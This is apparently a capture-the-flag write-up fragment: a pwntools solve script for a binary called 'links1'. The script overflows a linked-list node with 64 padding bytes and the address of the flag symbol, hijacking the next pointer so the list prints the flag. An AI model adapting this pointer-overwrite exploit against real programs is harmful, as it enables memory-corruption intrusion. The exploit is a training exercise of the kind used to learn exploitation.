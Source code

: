## Solve Script

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401467
continue
'''.format(**locals())

# Binary filename
exe = './links1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Add 3 elements to list (we need a first, middle and last node)
for i in range(3):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Modify element in list (middle node)
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to flag
io.sendlineafter(b'>>>', (b'A' * 64) + flat(elf.symbols.flag))

# View list (flag hopefully)
io.sendlineafter(b'>>>', b'1')

# These our first two entries, unimportant
io.recvlines(2)

# We want the third entry, now pointing to the flag
warn(io.recvline().decode())
```
{% endcode %}
